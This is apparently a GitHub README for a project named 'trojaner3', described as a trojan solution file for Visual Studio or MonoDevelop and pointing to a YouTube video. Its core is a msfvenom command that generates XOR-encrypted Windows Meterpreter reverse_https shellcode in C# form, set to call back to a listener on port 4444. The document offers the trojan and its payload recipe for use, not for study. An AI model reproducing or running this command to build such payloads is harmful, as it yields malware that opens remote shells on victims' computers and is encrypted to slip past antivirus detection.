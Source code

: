 # trojaner3
trojan solutionfile for monodevelop or visual studio

watch my video on youtube https://youtu.be/H2gNLTTrSxs

to generate shellcode use:

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.56.1 lport=4444 -f csharp --encrypt xor --encrypt-key a
